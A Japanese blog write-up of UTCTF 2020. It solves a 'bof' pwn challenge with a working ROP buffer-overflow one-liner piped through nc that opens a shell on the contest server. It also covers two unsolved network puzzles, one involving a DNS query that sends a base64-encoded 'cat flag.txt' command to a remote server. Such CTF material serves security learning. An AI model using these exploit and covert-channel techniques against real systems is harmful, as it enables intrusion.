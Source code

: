 ```yaml
---
title: "UTCTF 2020 Writeup"
date: 2020-03-09T22:00:00+09:00
lastmod: 2020-03-09T22:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF", "Reviewed"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Futctf_2020%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://utctf.live/challenges](https://utctf.live/challenges)
<br /><br />
えと、簡単なのしか解いてないので、テキトーです。

<br /><br />

<img src="https://captureamerica.github.io/writeups/img/utctf_2020_Score1.png" alt="utctf_2020_Score1.png">


<br /><br />
## [Pwn]: bof
- - -
### Challenge
> nc binary.utctf.live 9002

Attachment:

- pwnable (ELF 64bit)


<br />
### Solution
Ghidraでソースを確認します。

```C
undefined8 main(void)
{
  char local_78 [112];
  
  puts("I really like strings! Please give me a good one!");
  gets(local_78);
  puts("Thanks for the string");
  return 1;
}

void get_flag(int param_1)
{
  char *local_18;
  undefined8 local_10;
  
  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  return;
}
```

<br>
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ checksec ./pwnable 
[*] '/home/captureamerica/CTF/UTCTF_2020/pwnable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

タイトル通りBuffer Overflowのチャレンジで、get_flagを正しい引数で呼べたら/bin/shが呼ばれる、というやつです。

あと、これは64bitです。

<br>
pop rdi ; retを使います。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ ROPgadget --binary pwnable | grep ret | grep ": pop"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret   <--- これ
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
</pre>

<br>
get_flag()関数のアドレス
<pre>
gef➤  x get_flag
0x4005ea <get_flag>:	0xe5894855
</pre>

<br>
引数はよくある0xdeadbeefです。（0xffffffffを足しているんで、更に+1します）
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ python3
>>> hex(-0x21524111+0xffffffff)
'0xdeadbeee'
</pre>


<br>
以下でフラグゲット。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ (python -c "print('a'*112+'a'*8+'\x93\x06\x40\x00\x00\x00\x00\x00'+'\xef\xbe\xad\xde\x00\x00\x00\x00'+'\xea\x05\x40\x00\x00\x00\x00\x00')" ; cat - ) | nc binary.utctf.live 9002
I really like strings! Please give me a good one!
Thanks for the string
id
uid=1000(stackoverflow) gid=1000(stackoverflow) groups=1000(stackoverflow)
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
</pre>


<br />
Flag: `utflag{thanks_for_the_string_!!!!!!}`


<br /><br />
<br /><br />
さて、ここから下は、解きたかったけど解けなくて諦めたやつです。

## [Network]: Nittaku 3 Star Premium
- - -
### Challenge
> I found some weird data while monitoring my network, but I didn't catch it all. See if you can make sense of it.

Attachment:

- capture.pcap

<br />
### (Unsolved)
ICMP（ping）に大きなデータがついてます。だからチャレンジ名がNittaku 3 starなんですね。なかなかネーミングセンスがいいです。

4つに分かれているので、ひとつにまとめて、base64デコードするとgzファイルになって中にflag.pngが入ってます。

ただし、壊れたgzファイルになっちゃうので、フラグが部分的にしか取れませんでした。。。


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

フラグの続きは実際にPingをして取ってこないといけなかったようですね。ふーん。




<br /><br />
<br /><br />
## [Network]: Do Not Stop
- - -
### Challenge
> One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

Attachment:

- capture.pcap

<br />
### (Unsolved)
DNSがbas64エンコードされています。肝心なフラグの中身はpcapの中には含まれていないようです。

DNSサーバが35.188.185.68なので、そこに対して`cat flag.txt`をbase64エンコードしたものをクエリーするとフラグが取れると思ったんですが、DNSサーバに繋がらなくてダメでした。。。

Discordでも、サーバに繋がらないよ〜って言っている人が何人かいたんですけど、Adminの人はサーバ動いているよ、って言っているし。


<pre>
captureamerica@kali:~$ dig -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68
;; global options: +cmd
;; connection timed out; no servers could be reached
</pre>


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

なんか、クエリーを投げるDNSサーバは35.188.185.68じゃなかったみたいです。。。




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

